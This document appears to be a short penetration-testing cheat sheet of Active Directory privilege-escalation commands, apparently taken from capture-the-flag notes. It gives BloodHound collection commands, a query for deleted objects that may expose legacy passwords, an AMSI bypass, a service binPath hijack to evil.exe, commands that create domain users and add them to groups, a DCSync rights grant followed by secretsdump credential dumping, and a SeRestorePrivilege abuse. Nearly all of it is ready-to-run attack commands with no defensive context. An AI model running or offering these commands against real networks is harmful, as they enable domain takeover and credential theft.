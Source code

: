 Start Bloodhound

```
bloodhound-python -u username -p password  -d return.local -ns 10.129.95.241 -c all
```

or

```
neo4j start
/opt/bloodhound/BloodHound-linux-x64/BloodHound --no-sandbox > /dev/null &
```

Runs In Current Working Directory neo4j:neo4j

```
xhost + && sudo docker run -dt -v /tmp/.X11-unix/:/tmp/.X11-unix -v $(pwd):/root -e DISPLAY=$DISPLAY --network host --device /dev/dri/card0 --name bloodhound bannsec/bloodhound
```

Get a deleted object/user properties that may include legacy password pwd base64

```
Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObjects -Properties *
```

_Bypassing AMSI_

```
Bypass-4MSI
```

_Server-Operator_

```
stop start services(sc.exe) and modify *binPath="C:\Path\to\evil.exe"* 
```

_Account Operators_

```
net user thescriptkid thescriptkid /add /domain
net group "Some Non-Protected group but placing the new user in a group with WriteDACL" thescriptkid /add
net localgroup "Remote Management Users" thescriptkid /add
```

_Write DACL_

```
$SecPassword = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUser,$SecPassword

Add-ObjectACL -PrincipalIdentity compromiseduser -Credential $cred -Rights DCSync

secretsdumps.py domain/user@IP
```

**SeRestorePrivilege (by itself)**

```
.\SeRestoreAbuse.exe "cmd /c net user thescriptkid thescriptkid /add"
```
